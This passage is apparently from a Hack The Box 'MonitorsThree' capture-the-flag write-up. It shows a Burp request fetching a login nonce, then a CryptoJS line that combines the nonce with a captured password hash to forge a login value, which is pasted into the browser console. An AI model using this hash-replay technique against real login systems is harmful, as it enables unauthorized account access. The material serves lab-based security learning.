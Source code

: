 ```
Cookie: session-nonce=nfToyGTehxCj5nYAbtnQuc9ZvB3TB6iaom%2BcD9aiBko%3D; xsrf-token=D7HQGkM876729jT3Og0gNnlTmJ9VQxs2oly0TjZY2nE%3D
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

get-nonce=1
```

The response:

![htb_monitors3_response.png](../assets/monitorsthree_assets/htb_monitors3_response.png)

From here let's grab the hex encoded pw and the nonce from the burp response and create:

```
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('W6xDd8WM4MxgkxT7HfL3LUCN46Ls2bB8GbWLoO0P0vc=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64);
```

We can then open the devtools and in the console type "allow pasting" and paste in the above:

![htb_monitors3_dev.png](../assets/monitorsthree_assets/htb_monitors3_dev.png)
